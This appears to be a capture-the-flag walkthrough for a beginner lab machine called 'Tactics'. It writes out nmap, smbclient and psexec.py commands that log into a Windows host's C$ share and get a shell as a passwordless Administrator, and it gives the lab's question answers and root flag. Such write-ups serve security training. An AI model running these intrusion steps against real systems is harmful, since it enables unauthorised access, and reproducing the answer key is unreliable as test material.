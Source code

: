 # Tactics - Very Easy

```shell
nmap -T4 -p- -A -Pn 10.129.194.160

smbclient -L 10.129.194.160 -U administrator
#-L to list shares
#-u for user

smbclient \\\\10.129.194.160\\C$ -U administrator
#connect to C$ share
#this gives us a view of the file system

help
#we can use get command to download flag

#alt approach
psexec.py -h

psexec.py Administrator@10.129.194.160
#gets shell without password
```

```markdown
Open ports & services:

  * 135 - msrpc
  * 139 - netbios-ssn
  * 445 - microsoft-ds

To enumerate the SMB shares, we use the smbclient tool.

As we want to connect as Administrator, we will add that argument to our command for smbclient.

This gives us three shares, we can try connecting to each share without password first.

The C$ share gives us access to the file system; we can use this to get the flag.

Alternatively, we can use psexec.py to get shell on the system, since Administrator user does not have password enabled.

We can get flag from Administrator's desktop.
```

1. Which nmap switch can we use to enumerate machines when our packets are otherwise blocked by the Windows firewall? - -Pn

2. What does the 3-letter SMB stand for? - Server Message Block

3. What port does SMB use to operate at? - 445

4. What command line argument do you give to `smbclient` to list available shares? - -L

5. What character at the end of a share name indicates it's an administrative share? - $

6. Which Administrative share is accessible on the box that allows users to view the whole file system? - C$

7. What command can we use to download the files we find on the SMB share? - get

8. Which tool that is part of the Impacket collection can be used to get an interactive shell on the system? - psexec.py

9. Submit root flag - f751c19eda8f61ce81827e6930a1f40c
